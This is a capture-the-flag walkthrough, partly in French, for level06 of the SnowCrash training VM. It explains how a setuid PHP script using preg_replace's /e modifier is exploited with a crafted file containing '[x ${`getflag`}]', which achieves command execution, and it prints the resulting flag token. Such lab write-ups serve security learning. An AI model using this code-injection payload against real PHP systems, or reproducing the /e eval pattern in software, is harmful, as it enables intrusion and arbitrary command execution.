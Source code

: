 # Start / Analyse

```sh
level06@SnowCrash:~$ ll
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout*
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc*
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06*
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php*
-r-x------  1 level06 level06  675 Apr  3  2012 .profile*
```
> we have on exec with effectif user flag00 and level06.php

```sh
level06@SnowCrash:~$ cat level06
ELF☺☺☺☻♥☺(□4T◄4         (▲
```
> cut ssh conection

```php
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
> seems to be the source code of the exec, la fonction utilise preg_replace qui donc remplace les pattern par d'autres dans les array ou des strings

## Interpretation des varaiables

In PHP the input `id` and ```\`id\``` does not work because it prints the strings
to print a variable in a php string you have to put the expression in \${exp} so that the back ticks will be interpreted as an alias of shell_exec
${`id`}

If we put ```${`id`}``` in the file, the program outputs ```${\`id\`}``` because it takes the return from file_get_contents as a string literal

## e modifier 
Using the e modifier allows us to use PHP functions within the replace parameters. The following bit of code turns all letters upper case in a string of random letters by using the strtoupper() PHP function.

## the \2 parameter

The parameter \n returns the n match of regex here the 2nd match so (.*)

## eval
The eval function in php interprets the variables in a string, exactly what we need to launch a command. The callback which is called by preg_replace with the modifier /e execute eval has its parameter

# Exploit

We must therefore tilt the first regex to enter the callback function that our string is eval

/tmp/file.txt : 
```
[x ${`id`}]
```

`[x ]` to tilt the regex 

And `(.*)` matches \2 which is passed to the call back so everything after `[x ` will be eval

/tmp/file.txt : 
```
[x ${`getflag`}]
```

```sh
level06@SnowCrash:~$ ./level06 /tmp/file.txt /tmp/file.txt
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
in /home/user/level06/level06.php(4) : regexp code on line 1
```


>> *https://stackoverflow.com/questions/15454220/replace-preg-replace-e-modifier-with-preg-replace-callback*
